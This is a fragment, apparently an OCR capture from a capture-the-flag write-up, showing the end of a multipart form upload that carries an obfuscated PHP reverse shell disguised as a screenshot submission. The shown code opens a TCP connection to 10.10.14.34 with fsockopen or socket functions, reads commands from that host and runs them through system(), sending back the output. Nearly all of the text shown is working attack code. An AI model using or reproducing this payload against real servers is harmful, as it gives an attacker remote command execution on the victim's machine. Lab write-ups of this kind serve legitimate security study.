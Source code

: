       if($EPWc('system')and!$JZlmOv('system',$dis)){
        ob_start();
        system($c);
        $o=ob_get_contents();
        ob_end_clean();
      }else
      {
        $o=0;
      }
    
        return $o;
      }
    }
    $nofuncs='no exec functions';
    if(is_callable('fsockopen')and!in_array('fsockopen',$dis)){
      $s=@fsockopen("tcp://10.10.14.34",$port);
      while($c=fread($s,2048)){
        $out = '';
        if(substr($c,0,3) == 'cd '){
          chdir(substr($c,3,-1));
        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
          break;
        }else{
          $out=CkLhPZUPboOwI(substr($c,0,-1));
          if($out===false){
            fwrite($s,$nofuncs);
            break;
          }
        }
        fwrite($s,$out);
      }
      fclose($s);
    }else{
      $s=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);
      @socket_connect($s,$ipaddr,$port);
      @socket_write($s,"socket_create");
      while($c=@socket_read($s,2048)){
        $out = '';
        if(substr($c,0,3) == 'cd '){
          chdir(substr($c,3,-1));
        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
          break;
        }else{
          $out=CkLhPZUPboOwI(substr($c,0,-1));
          if($out===false){
            @socket_write($s,$nofuncs);
            break;
          }
        }
        @socket_write($s,$out,strlen($out));
      }
      @socket_close($s);
    }
-----------------------------6880877471789511041406832871
Content-Disposition: form-data; name="submit"
Submit Screenshot
-----------------------------6880877471789511041406832871--
{% endhighlight %}
